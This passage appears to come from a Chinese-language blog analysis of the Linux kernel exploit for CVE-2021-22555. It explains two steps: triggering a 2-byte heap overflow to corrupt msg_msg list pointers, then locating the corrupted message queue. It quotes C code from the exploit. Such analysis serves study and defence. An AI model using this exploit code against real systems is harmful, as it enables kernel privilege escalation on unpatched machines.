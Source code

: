 ##### （5）触发漏洞

利用2字节溢出，将相邻的msg_msg结构体中`msg_msg->m_list->next`末尾两字节覆盖为0, 使得该主消息的`msg_msg->m_list->next`指向其他主消息的辅助消息。

**目的**：使某个内存被两个主消息引用。

```c
  printf("[*] Triggering out-of-bounds write...\n");
  if (trigger_oob_write(s) < 0)
    goto err_rmid;
```



![4](/images/posts/CVE-2021-22555/4.png)

##### （6）定位发生错误的消息队列索引

**方法**：直接查看消息内存，如果主消息和辅助消息队列的标识不同，则表示主消息`msg_msg->m_list->next`成员被修改。为保证查看消息时，避免消息被释放，需使用`MSG_COPY`标志接收消息。

```c
  printf("[*] Searching for corrupted primary message...\n");
  for (int i = 0; i < NUM_MSQIDS; i++) {
    if (i != 0 && (i % HOLE_STEP) == 0)
      continue;
    if (peek_msg(msqid[i], &msg_secondary, sizeof(msg_secondary), 1) < 0)
      goto err_no_rmid;
    if (*(int *)&msg_secondary.mtext[0] != MSG_TAG) {
      printf("[-] Error could not corrupt any primary message.\n");
      goto err_no_rmid;
    }
    if (*(int *)&msg_secondary.mtext[4] != i) {
      fake_idx = i;
      real_idx = *(int *)&msg_secondary.mtext[4];
      break;
    }
  }

  if (fake_idx == -1 && real_idx == -1) {
    printf("[-] Error could not corrupt any primary message.\n");
    goto err_no_rmid;
  }

  // fake_idx's primary message has a corrupted next pointer; wrongly
  // pointing to real_idx's secondary message.
  printf("[+] fake_idx: %x\n", fake_idx);
  printf("[+] real_idx: %x\n", real_idx);
```

